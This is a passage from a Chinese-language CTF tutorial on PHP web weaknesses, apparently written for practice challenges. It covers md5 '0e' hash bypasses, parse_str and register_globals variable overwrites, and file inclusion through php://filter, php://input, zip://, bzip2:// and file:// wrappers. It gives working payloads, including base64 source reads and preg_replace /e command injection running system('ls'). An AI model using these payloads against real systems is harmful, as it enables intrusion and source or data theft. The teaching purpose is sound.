    echo "Out!";
}
#QNKCDZO = 0e830400451993494058024219903391
```

注意第四行，和前面的 md5 比较有关系，但不同的是这里加入了 **parse_str** 这个函数，这段代码大致意思就和上面 md5 绕过的意思一样，如果 md5 编码后的哈希值时 **0e** （科学计数法）开头的，都一律解释为 0，所以当两个不同的值经过哈希编码后他们的值都是以 **0e** 开头的，则每个值都是 **0**，与众不同的是我们要覆盖掉 **a[0]** 这个变量

Payload: **?id=a[0]=240610708**

#### register_globals

> https://php.net/manual/zh/ini.core.php#ini.register-globals

**register_globals** 设置为 on 的时候，传递的参数会 **自动注册** 为全局变量。

```
ini_set("register_globals", "On");
echo $a;
```


来个例子。。

```
$flag = "flag{REAL_FLAG}";
if ($_POST["getout"]==1 ){
    echo $flag;
} else {
    echo "Out!";
}
```

Payload: **getout=1**（POST）

#### import_request_variables

> import_request_variables
>
> import_request_variables — 将 GET／POST／Cookie 变量导入到全局作用域中

注意：'import_request_variables' 已在 PHP 5.4 版本中被移除

这里就不写了，网上自己搜教程

### 伪协议

先了解下 php://

> php:// — 访问各个输入/输出流（I/O streams）
>
> https://www.php.net/manual/zh/wrappers.php.php

**说明：**
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符，
内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。 **php.ini** 中的配置：

- 在 allow_url_fopen，allow_url_include 都关闭的情况下可以正常使用 php://作用为访问输入输出流

跟会读取文件内容的函数使用，如：**include**、**include_once**、**require**、**require_once**、**file_get_contents**

#### php://filter

作用：这个可以用来过滤我们发送或接收的数据。 在 CTF 中可以用来读取脚本源代码

```
php://filter/read or write=/resource=数据流
```

- resource=<要过滤的数据流> **（必须）**  它指定了你要筛选过滤的数据流

- read=<读链的筛选列表>

  可选

  。可以设定一个或多个过滤器名称，以管道符`|`分隔。

  - 常用的有：
  - convert.base64

    - 如果对其编码，则 convert.base64-encode
    - 对应的解码，则 convert.base64-decode

  - convert.iconv.\*
    - 详见：https://www.php.net/manual/zh/function.iconv.php

- write=<写链的筛选列表>**可选**。可以设定一个或多个过滤器名称，以管道符`|`分隔。

举个例子

```
$id = $_GET['id'];
include($id);
```

在 CTF 中可以用来读取文件内容（不用 base64）

```
php://filter/read=resource=files.txt
```

用 Base64

```
php://filter/read=convert.base64-encode/resource=files.txt
```



上方 base64 解码后为 compare.php 文件源码

**例题**


进入 index.php 页面后发现存在参数 page，直接包含 index.php 文件

```
http://111.200.241.244:57153/index.php?page=php://filter/read=convert.base64-encode/resource=index.php
```


解码后为源代码



设置 Header 头 **X-Forwarded-For** 将来源设置为 127.0.0.1，发现如果三个参数（pat、rep、sub）都设
置了会进入一个正则表达式，这里可以利用 preg_replace 的安全问题，详见：[https://xz.aliyun.com/t/2
577](https://xz.aliyun.com/t/2 577)

```
?pat=/1/e&rep=system('ls');&sub=1
```

然后搜一下 flag 就可以了

```
?pat=/1/e&rep=system('grep -r cyber .');&sub=1
```



更多妙用可以看一下 P 神的 [谈一谈 php://filter 的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

#### php://input

是个可以读取请求的原始数据（输入/输出流）。 如果 html 表单编码设置为"**multipart/form-data**"，
请求是无效的。
一般在 CTF 中用于执行 php 代码（**POST 发包**）

注：需在 php 中设置 **allow_url_include = On**

```
include($_GET['id']);
```


举个例子

```
$id = $_GET['id'];
// flag in D:\flag.txt
if (substr($id, 0, 6) === "php://" && isset($id)) {
    echo "Out!";
}else{
    include(implode($id));
}
```

这里我使用 substr 对字符串进行检测，如果包含 php://则回显 Out，substr 可以用数组绕过


#### zip:// & bzip2 & zlib://

**触发条件：**

- allow_url_fopen: off/on
- allow_url_include: off/on

**作用：**
zip:// & bzip2:// & zlib:// 均属于压缩流，可以用来访问压缩文件中的子文件，可以不用指定后缀名，可修改为任意后缀。jpg、png、gif、xxx、etc…

**ZIP 使用：**

```
zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
```

压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

```
?file=zip://E:\web\d-cutevnc\test.jpg%23test.txt
```


**compores.bzip2://file.bz2**

压缩 phpinfo.txt 为 phpinfo.bz2 上传，任意后缀名

```
?file=compress.bzip2://E:\web\d-cutevnc\test2.test
```


#### file://

利用条件：

- allow_url_fopen: On
- allow_url_include: On

用于访问本地文件系统，在 CTF 中通常用来 **读取本地文件**

```
include($_GET["id"]);
```


